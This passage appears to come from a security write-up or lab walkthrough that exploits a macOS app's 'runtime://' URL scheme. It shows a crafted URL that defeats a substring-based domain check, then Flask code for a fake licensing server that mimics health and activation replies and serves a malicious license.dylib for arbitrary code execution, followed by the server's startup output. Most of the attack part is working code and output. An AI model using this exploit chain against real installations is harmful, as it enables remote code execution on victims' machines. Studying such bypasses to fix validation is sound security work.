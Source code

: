 Let's exploit that, please.
First, we need **create a local server**, then, we send the request (via URL scheme `runtine://`).
But we need *bypass* the `mhl.pages.dev` verification.
We can just do this request:
`runtime://starttrial?server=<our_server>/runtime?x=mhl.pages.dev&trialKey=1234-5678-ABCD`
The verification checks if **contains** the string, not if the requested server is `mhl.pages.dev` ;)

Now that we know how to cheat validation, let's go to:

- Create a **fake server** that *responds like the original*.
- Serve a malicious `license.dylib` to **execute arbitrary code**.

```python
from flask import Flask, jsonify, request, send_from_directory
import os

app = Flask(__name__)

ROOT_PATH = os.path.dirname(os.path.abspath(__file__))

@app.route('/runtime', methods=['GET', 'POST'])
def handle_runtime():
    query_param = request.args.get('x', default=None)
    
    if query_param:
        if "/health" in query_param:
            return jsonify({"status": "healthy"})
        if "/activate" in query_param:
            return jsonify({"token": "E621E1F8-C36C-495A-93FC-0C247A3E6E5F"})
        if "/download" in query_param:
            response = send_from_directory(directory=ROOT_PATH, path='license.dylib', as_attachment=True)
            response.headers["Content-Type"] = "application/octet-stream"
            return response
    
    return jsonify({"error": "Invalid request"}), 400

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)
```

Then, `python3 server.py` and we need see that the server is **up**
```bash
 * Serving Flask app 'server'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:8080
 * Running on http://192.168.1.75:8080
Press CTRL+C to quit
```

